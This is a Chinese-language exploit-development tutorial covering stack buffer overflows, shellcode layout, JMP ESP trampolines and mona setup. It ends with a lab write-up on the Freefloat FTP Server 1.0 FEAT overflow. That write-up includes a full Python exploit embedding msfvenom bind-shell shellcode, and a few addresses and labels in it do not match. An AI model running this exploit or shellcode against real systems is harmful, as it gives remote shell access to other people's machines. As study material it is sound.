

## 一、shellcode

### 1.1 简介

和Exploit的关系？ 犹如导弹研究者和利用导弹者。

Exploit负责将程序导向shellcode，shellcode又称为payload。

通常缓冲区溢出漏洞中可利用shellcode技术。最关键的是如何让程序交出控制权给shellcode。

### 1.2 缓冲区溢出

缓冲区(Buffer)又称为缓存(Cache)，是内存空间的一部分。简单理解，可以把它想象成一段栈空间。当一个程序在对缓冲区进行写操作时是很危险的，如果写入的数据超过缓冲区大小则会将缓冲区之外的数据覆盖，造成数据溢出。

#### 1.2.1 溢出示例

shellcode就是利用了缓冲区存放，例如下面这段程序就存在溢出漏洞：

```cpp
#include <stdio.h>
#include <windows.h>
#define PASSWORD "1234567"
int verify_password (char *password)
{
    int authenticated;
    char buffer[44];
    authenticated=strcmp(password,PASSWORD);
    strcpy(buffer,password);//over flowed here!   
    return authenticated;
}
main()
{
    int valid_flag=0;
    char password[1024];
    FILE * fp;
    LoadLibrary("user32.dll");//prepare for messagebox
    if(!(fp=fopen("password.txt","rw+")))
    {
        exit(0);
    }
    fscanf(fp,"%s",password);
    valid_flag = verify_password(password);
    if(valid_flag)
    {
        printf("incorrect password!\n");
    }
    else
    {
        printf("Congratulation! You have passed the verification!\n");
    }
    fclose(fp);
}
```

在上面的程序中，verify_password函数中存在大小为44的缓冲区buffer，后面没用做长度校验，直接使用了strcpy进行了填充，导致缓冲区溢出。

该程序可通过在password.txt中填充shellcode，通过OD动态调试发现buffer缓冲区之后存放了函数返回地址，只要再把该地址覆盖成shellcode的入口地址就能执行shellcode。

#### 1.2.2 规划缓冲区

在填充shellcode的时候还要合理规划缓冲区，此处shellcode填充在返回地址之前，导致shellcode的大小被限制在44，所以shellcode可以填充在函数返回地址之后。缓冲区中被放的数据可以有以下几种：

1. 填充物：一般是nop指令，函数返回地址只要落在该范围内就能顺序到达shellcode位置。
2. 被覆盖的返回地址：可以是shellcode入口地址、跳转指令地址、近似到shellcode的nop填充物地址。
3. shellcode机器码

摆放方式：


### 1.3 字符串转16进制脚本

#### str_to_little_endian.py

溢出中的shellcode通常把静态数据（例如字符串）存储到栈中，例如存储“techliu”到栈中：

```asm
xor ebx, ebx
push ebx
push 0x0075696C
push 0x68636574
```

这是根据栈的存储特性以及小端序特性写入到内存中的，这样在内容中就能看到'techliu'的字符串，前两行是将字符串结束符NULL入栈，但是不能直接push 0，因为可能会发生shellcode截断。

而且push只能操作DWORD大小的数据，所以需要对字符串进行切分入栈。

在py脚本后直接跟转化的字符串即可，生成的16进制从下到上依次入栈。

脚本内容：

```python
import struct
import sys
BLOCK = 4
if __name__ == '__main__':
  des_str = sys.argv[1]
  if not des_str:
      print("Not argv[1]!")
      exit(0)
  if isinstance(des_str, str):
      des_str = des_str.encode()
  # str_len = len(des_str);
 
  start = 0;
  while True:
      try:
          cur_str = des_str[start:start+4].ljust(4, b'\0')
          if cur_str == b'\0\0\0\0':
              break
          hex_str = cur_str.hex()
          int_str = int(hex_str,16)
          pack_str = struct.pack(b'<l', int_str)
          print("%4s:\t0x%s" % (cur_str.strip(b'\0').decode(), pack_str.hex().upper()))
          start = start + 4
      except:
          print("Error!!")
          exit(0)
```

> 注：字符串长度如果不是4的倍数，会被填充00，在目标程序读到此处的时候可能会发生00截断，根据目标程序获取exp内容的方式可能还会有其他截断，例如利用fscanf或scanf等，空格(ascii：20)也能截断字符串。

### 1.4 几种技巧

#### 1.4.1 跳板技术

程序每次运行后在内存中的指令地址都是变化的，所以shellcode入口地址也是动态的，所以为了能够动态找到shellcode的位置，引入了跳板技术。如图所示，左边表示存储返回地址的栈帧填充为shellcode入口地址，这种方式下次运行时入口地址将发生变化导致失败，右边表示跳板技术后，通过esp来定位shellcode，这种方式可保证下次运行exp依然有效。


跳板技术是用来动态跳转shellcode的，shellcode代码需要从函数返回后esp的栈顶位置开始，然后函数返回到`JMP ESP`指令处，指令执行后跳到esp位置进入shellcode入口。

> 注: 对于不同的返回指令的不同，函数返回后esp的指向也有所不同。一般执行ret指令后esp+4，此时shellcode放在存放返回地址的栈帧的下一位置。若是ret N指令，执行后esp+4+N，则shellcode需要放在计算出的对应位置处才行。

`JMP ESP`指令的地址要已知，在xp中`JMP ESP`可以通过加载kernel32.dll、user32.dll、mfc32.dll等这些经常被加载到内存中的库中寻找，一般地址都是确定的。

利用C实现查找代码如下：

```cpp
# include <stdio.h>
#include <windows.h>
 
main()
{
    HINSTANCE hLib;
    hLib = LoadLibrary("user32.dll");
    if(!hLib)
    {
        printf("Load dll error!\n");
        exit(0);
    }
 
    byte* ptr = (byte*) hLib;
    int address;
    int position;
    bool done_flag = false;
 
    for(position=0; !done_flag; position++)
    {
        try
        {
            if(ptr[position] == 0xFF && ptr[position+1] == 0xE4)
            {
             // jmp esp 的机器码 为 0xFFE4
                address = (int)ptr + position;
                printf("Find OPcode at 0x%08lX\n", address);
            }
        }
        catch(...)
        {
            address = (int)ptr + position;
            printf("End of 0x%08lX\n", address);
            done_flag = true;
        }
    }
}
```

如果在现在的系统版本上实验，这个程序就失效了，因为WIN7以后, 几个核心dll都是使用浮动地址加载的。

#### 1.4.2 抬高栈顶保护shellcode

如果shellcode放在返回地址栈帧之前，那么在函数返回后栈顶位置会在shellcode下方，虽然出栈后的数据不被清空，但是却会受入栈操作的影响，所以shellcode中若存在push操作，很有可能破坏shellcode结构：


所以要在shellcode开头适当先抬高栈顶让shellcode在栈顶下方，这样push就不会影响shellcode。
抬高栈顶可以用`sub esp, N`，N大于shellcode长度即可。


[缺失，略过一部分]

## 二、windbg配置mona

### 2.1 参考

[https://github.com/corelan/windbglib](https://github.com/corelan/windbglib)

[https://github.com/corelan/mona](https://github.com/corelan/mona)

### 2.2 配置符号路径

新建文件夹，缓存符号，如c:\localsymbols

然后，写入符号路径：

```plain
SRV*c:\localsymbols*http://msdl.microsoft.com/download/symbols
```

选择reload才能立即生效。

### 2.3 安装python

安装python后才能载入pykd.pyd

python版本要和mona版本一致

```cmd
pip install pykd
```

### 2.4 配置windbg

将pykd.pyd放入windbg的winext中，mona.py和windbglib.py放入windgb根目录。

cmd中执行，

```cmd
c:
cd "C:\Program Files (x86)\Common Files\Microsoft Shared\VC"
regsvr32 msdia90.dll
(You should get a messagebox indicating that the dll was registered successfully)
```

根据x64和x86作出相应改变。

用windgb随便打开一个pe文件，然后进入命令行，输入`.load pykd.pyd`，然后输入`!py mona`，尝试mona运行效果。

### 2.5 常用mona命令

#### 2.5.1 显示载入的模块

```cmd
!py mona modules
```

#### 2.5.2 查找机器码

如jmp esp指令。

```cmd
!py mona.py find -s "\xff\xe4"  -m
```

生成fuzzing模式串

```cmd
# 300为模式串长度
!py mona.py pattern_create 300
```

EIP被模式串覆盖之后，查询模式串偏移

```cmd
# 0x41424345为由模式串造成的异常值
!py mona.py pattern_offset 0x41424345
```

还可以这样查询偏移

```cmd
!py mona.py find_msp
```

### 2.6 在Immunity Debugger中使用mona

将mona.py复制到Immunity Debugger下的PyCommands中，打开Immunity Debugger，输入命令`!mona help`试用。

## 三、Freefloat FTP Server 1.0 溢出漏洞分析

### 3.1 简介

这是一道exploit-db中的简单题目，溢出漏洞入门用。

### 3.2 参考

- [Part 2: Saved Return Pointer Overflows](http://www.fuzzysecurity.com/tutorials/expDev/2.html)
- [[翻译]Windows Exploit开发系列教程第二部分：Saved Return Pointer Overflows](https://bbs.pediy.com/thread-206858.htm)
- [Freefloat FTP Server 1.0 溢出漏洞分析](https://blog.csdn.net/u012763794/article/details/53291788)
- [FreeFloat FTP1.0 溢出漏洞分析](https://xz.aliyun.com/t/2027)
- [Buffer Overflows Exploits](https://oscp.brutef0rce.com/buffer-overflows-exploits)

### 3.3 分析工具

1. mona [[项目主页](https://github.com/corelan/mona)]
2. Immunity Debugger [[主页](https://www.immunityinc.com/products/debugger/)]
3. IDA 7.0 x86
4. win7 x64
5. kali 2.0 (主要用msf工具)
6. FTPServer.exe 1.0 [[主页](https://freefloat-ftp-server.apponic.com/)]
7. python 2.7

### 3.4 Start

#### 3.4.1 fuzzing

我试了两种方式，道理一样。

##### 3.4.1.1 msf方式

打开msfconsole，如果报错


则可能是postgresql数据库没有启动，


先启动一下。命令`systemctl start postgresql`。

然后进入msfconsole不报错了就行。

首先搜一下ftp fuzzing的模块，命令`search fuzzing`


就用`auxiliary/fuzzers/ftp/ftp_pre_post`，命令`use auxiliary/fuzzers/ftp/ftp_pre_post`
输入`info`查看信息，`RHOST`填入即可

```bash
# 加载模块
use auxiliary/fuzzers/ftp/ftp_pre_post
# 设置远程ftp地址
set RHOST 192.168.80.128
# 开始利用
exploit
```


看到2次异常后程序崩溃，应该是可以溢出。

##### 3.4.1.2 python

写脚本，发包测试

```python
import socket
 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.80.128', 21))
evil = 'A' * 300
payload = 'FEAT ' + evil + '\r\n'
s.send(payload)
s.close()
```

运行后，程序出现崩溃。将程序使用Immunity加载运行，再次运行脚本，A的ASCII码为0x41



可见，程序的EIP已经被0x41414141填充，证明可溢出。（如果反汇编窗口空了，再点一下三角运行程序，就会发生图中报错，或者直接看左下角信息）

#### 3.4.2 找到覆盖返回地址的偏移

首先，使用Immunity载入ftp程序，让程序运行起来，搜索字符串，找到下面这项


双击进入反汇编窗口，在这里看到一个wprintfw函数的调用，在此处下断点。
然后利用之前的python脚本发送payload，程序停下之后单步找到造成异常的地方，字啊这里之前的脚本有点bug，单步后并未发现异常，在栈区也没有看到一连串的A，修改脚本，在send之前先recv，再次运行脚本可单步即找到异常点。

> 注：这里为什么要先recv才能单步走到异常点呢？
>
> 我试了试，不放入Immunity中，直接对程序发送payload，会正确触发异常，但是到Immunity中单步就不行了。通过IDA发现，sub_401020为主窗口过程函数，如果点击了start按钮触发sub_4032D0函数，该函数实现了服务器监听，当有客户端连接时触发sub_403120函数，该函数实现了accept，之后进入sub_402FC0，该函数发送FTP版本信息给客户端，然后使用select与客户端通信。所以问题的原因就是sub_402FC0这个函数，send和select以及单步调试之间的通信不协调导致。客户端在send之前加上recv先接收服务器发的版本信息才能保证正常进入异常点。

经过单步调试之后，找到引起异常的最终位置在sub_402DE0中，在IDA中反汇编代码中分析

```cpp
int __thiscall sub_402DE0(SOCKET *this, int a2, const char *a3)
{
  char buf; // [esp+10h] [ebp-100h]
  char v5; // [esp+11h] [ebp-FFh]
  char v6; // [esp+12h] [ebp-FEh]
  char v7; // [esp+13h] [ebp-FDh]
  char v8; // [esp+14h] [ebp-FCh]
 
  buf = (char)a2 / 100 + 48;
  v7 = 32;
  v5 = a2 / 10 % 10 + 48;
  v6 = a2 % 10 + 48;
  strcpy(&v8, a3);
  strcat(&buf, asc_40A588);
  return send(*this, &buf, strlen(&buf), 0);
}
```

可以看到，是这里的strcpy造成的缓冲区溢出。被溢出的缓冲区为v8，大小为0xFC，即252。
通过进一步观察复制到缓冲区中的内容为'客户端发来的数据'，前后都有引号包裹，发现了缓冲区的大小，就要想办法找到返回地址的偏移位置。缓冲区布局有两种可能：


这种布局在返回地址和局部变量之间还保存着旧的EBP，新的EBP指向局部变量底部边界。


这种布局局部变量下方直接就是返回地址，EBP指向局部变量底部边界。

判定的方法为：在函数开头观察入栈情况，有`push ebp`则为前一种布局，否则是后者。

观察该函数的汇编代码，可发现为后者，并没有保存原始ebp。

缓冲区共252，所以对于`FEAT {pattern}`，在`{pattern}`的246处放置跳板地址。

##### 3.4.2.1 简便方法

使用mona生成模式串：

```cmd
!mona pattern_create 300
```

生成后打开pattern.txt复制模式串给py中的evil变量，不建议从log中复制模式串（可能存在截断），然后重启服务器，运行脚本后触发异常。


异常字符0x41326941，查找偏移位置：

```cmd
!mona pattern_offset 0x41326941
```


与我们算出来的一模一样。

或者`!mona findmsp`也可以找到。


也可以用msf脚本生成：

```bash
# 查询脚本位置
locate pattern_create
# 进入目录后，执行脚本生成模式串
pattern_create.rb -l 300
# 查询偏移
pattern_offset.rb -q 41326941
```


#### 3.4.3 利用

现在就可寻找跳板地址覆盖掉返回地址了。

##### 3.4.3.1 寻找跳板地址

可以暴力搜索内存，这里仅提供一些简便方法：

```cmd
!mona jmp -r esp
```

在mona同目录下找jmp.txt，里面有结果，有时候可能找不多。用下面一种方法：

```cmd
!mona find -s '\xff\xe4' -m
```

然后结果在find.txt里，随便找一个做跳板地址就行。

这个跳板地址放在模式偏移246的位置。

##### 3.4.3.2 构造shellcode

有了跳板，接下来就是shellcode，下面演示一个反弹shell功能的shellcode。

需要用到kali，或带有msf的机器。

命令：

```bash
# -p表示加载模块，-f c表示格式化为c代码，-b为坏字符
msfvenom -p windows/shell_bind_tcp LPORT=5555 -f c -b '\x00\x0a\x0d'
```


然后复制shellcode拼接到py的payload中。

##### 3.4.3.3 最终EXP

脚本如下：

```python
import socket
 
#----------------------------------------------------------------------------------#
# msfvenom windows/shell_bind_tcp LPORT=5555  -b '\x00\x0A\x0D' -f c               #
#----------------------------------------------------------------------------------#
 
shellcode = (
"\xd9\xee\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x53\xba\x20\x01\xae"
"\xc2\x83\xc0\x04\x31\x50\x13\x03\x70\x12\x4c\x37\x8c\xfc\x12"
"\xb8\x6c\xfd\x72\x30\x89\xcc\xb2\x26\xda\x7f\x03\x2c\x8e\x73"
"\xe8\x60\x3a\x07\x9c\xac\x4d\xa0\x2b\x8b\x60\x31\x07\xef\xe3"
"\xb1\x5a\x3c\xc3\x88\x94\x31\x02\xcc\xc9\xb8\x56\x85\x86\x6f"
"\x46\xa2\xd3\xb3\xed\xf8\xf2\xb3\x12\x48\xf4\x92\x85\xc2\xaf"
"\x34\x24\x06\xc4\x7c\x3e\x4b\xe1\x37\xb5\xbf\x9d\xc9\x1f\x8e"
"\x5e\x65\x5e\x3e\xad\x77\xa7\xf9\x4e\x02\xd1\xf9\xf3\x15\x26"
"\x83\x2f\x93\xbc\x23\xbb\x03\x18\xd5\x68\xd5\xeb\xd9\xc5\x91"
"\xb3\xfd\xd8\x76\xc8\xfa\x51\x79\x1e\x8b\x22\x5e\xba\xd7\xf1"
"\xff\x9b\xbd\x54\xff\xfb\x1d\x08\xa5\x70\xb3\x5d\xd4\xdb\xdc"
"\x92\xd5\xe3\x1c\xbd\x6e\x90\x2e\x62\xc5\x3e\x03\xeb\xc3\xb9"
"\x64\xc6\xb4\x55\x9b\xe9\xc4\x7c\x58\xbd\x94\x16\x49\xbe\x7e"
"\xe6\x76\x6b\xea\xee\xd1\xc4\x09\x13\xa1\xb4\x8d\xbb\x4a\xdf"
"\x01\xe4\x6b\xe0\xcb\x8d\x04\x1d\xf4\xa4\x67\xa8\x12\xac\x97"
"\xfd\x8d\x58\x5a\xda\x05\xff\xa5\x08\x3e\x97\xee\x5a\xf9\x98"
"\xee\x48\xad\x0e\x65\x9f\x69\x2f\x7a\x8a\xd9\x38\xed\x40\x88"
"\x0b\x8f\x55\x81\xfb\x2c\xc7\x4e\xfb\x3b\xf4\xd8\xac\x6c\xca"
"\x10\x38\x81\x75\x8b\x5e\x58\xe3\xf4\xda\x87\xd0\xfb\xe3\x4a"
"\x6c\xd8\xf3\x92\x6d\x64\xa7\x4a\x38\x32\x11\x2d\x92\xf4\xcb"
"\xe7\x49\x5f\x9b\x7e\xa2\x60\xdd\x7e\xef\x16\x01\xce\x46\x6f"
"\x3e\xff\x0e\x67\x47\x1d\xaf\x88\x92\xa5\xdf\xc2\xbe\x8c\x77"
"\x8b\x2b\x8d\x15\x2c\x86\xd2\x23\xaf\x22\xab\xd7\xaf\x47\xae"
"\x9c\x77\xb4\xc2\x8d\x1d\xba\x71\xad\x37")
 
#----------------------------------------------------------------------------------#
# Badchars: \x00\x0A\x0D                                                           #
# 0x77c35459 : push esp #  ret  | msvcrt.dll                                       #
# shellcode at ESP => space 749-bytes                                              #
#----------------------------------------------------------------------------------#
 
buffer = "\x90"*20 + shellcode
evil = "A"*246 + "\x32\x31\xd9\x7d" + buffer
 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.80.128',21))
 
s.send('FEAT ' + evil + '\r\n')
 
s.close()
```

重启服务器，执行exp后，使用nc连接成功！


### 3.4 End

NULL.

## 四、End

nonnno！
